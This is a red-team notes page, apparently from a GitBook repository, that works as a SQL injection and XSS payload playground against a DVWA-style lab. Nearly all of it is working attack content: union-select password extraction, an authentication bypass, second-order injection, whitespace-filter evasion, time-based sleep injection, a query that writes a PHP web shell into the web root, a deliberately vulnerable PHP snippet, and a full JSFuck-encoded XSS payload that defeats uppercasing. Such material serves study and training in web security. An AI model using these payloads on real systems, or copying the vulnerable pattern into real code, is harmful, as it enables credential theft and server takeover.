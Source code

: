```yaml
---
description: This is my playground for SQL injection and XSS
---
```


# SQL Injection & XSS Playground

## Classic SQL Injection

### Union Select Data Extraction

```sql
mysql> select * from users where user_id = 1 order by 7;              
ERROR 1054 (42S22): Unknown column '7' in 'order clause'
mysql> select * from users where user_id = 1 order by 6;
mysql> select * from users where user_id = 1 union select 1,2,3,4,5,6;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2015-59-39.png)

```sql
select * from users where user_id = 1 union all select 1,(select group_concat(user,0x3a,password) from users),3,4,5,6;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2016-03-00.png)

### Authentication Bypass

```sql
mysql> select * from users where user='admin' and password='blah' or 1 # 5f4dcc3b5aa765d61d8327deb882cf99' 
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/assets/Screenshot%20from%202018-11-17%2016-16-06.png)

### Second Order Injection

```sql
mysql> insert into accounts (username, password, mysignature) values ('admin','mynewpass',(select user())) # 'mynewsignature');
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2016-57-24.png)

### Dropping a Backdoor

```sql
mysql> select * from users where user_id = 1 union select all 1,2,3,4,"<?php system($_REQUEST['c']);?>",6 into outfile "/var/www/dvwa/shell.php" #;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2019-15-16.png)

### Conditional Select

```sql
mysql> select * from users where user = (select concat((select if(1>0,'adm','b')),"in"));
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2021-39-53.png)

### Bypassing Whitespace Filtering

```sql
mysql> select * from users where user_id = 1/**/union/**/select/**/all/**/1,2,3,4,5,6;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2022-43-46.png)

## Time Based SQL Injection

### Sleep Invokation

```sql
mysql> select * from users where user_id = 1 or (select sleep(1)+1);
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2015-51-50.png)

```sql
select * from users where user_id = 1 union select 1,2,3,4,5,sleep(1);
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2015-53-52.png)
## XSS 

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Peek%202018-11-17%2020-17.gif)

### Strtoupper Bypass

Say we have the following PHP code that takes `name` as a user supplied parameter:

```php
<?php
        $input=$_GET['name'];
        $sanitized=strtoupper(htmlspecialchars($input));   
        echo '<form action="">';
        echo "First name: <input type='text' name='name' value='".$sanitized."'><br>";
        echo "<input type='submit' value='Submit form'></form>";
        echo "</HTML></body>";
?>
```

Line 3 is vulnerable to XSS, and we can break out of the input with a single quote `'`:

```php
$sanitized=strtoupper(htmlspecialchars($input));   
```

For example, if we set the `name` parameter to the value of  `a'`, we get:

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2021-54-22.png)

Note that the `a` got converted to a capital `A` and this is due to the `strtoupper` function being called on our input. What this means is that any ascii letters in our JavaScript payload will get converted to uppercase and become invalid and will not execute (i.e`alert() != ALERT()`).

To bypass this constraint, we can encode our payload using JsFuck, which eliminates all the letters from the payload and leaves us with this:

```php
A' onmouseover='[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()'
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2021-55-33.png)

## References

{% embed url="http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet" %}

{% embed url="http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet" %}

{% embed url="http://breakthesecurity.cysecurity.org/2010/12/hacking-website-using-sql-injection-step-by-step-guide.html" %}

{% embed url="https://www.youtube.com/watch?v=Rqt_BgG5YyI" %}
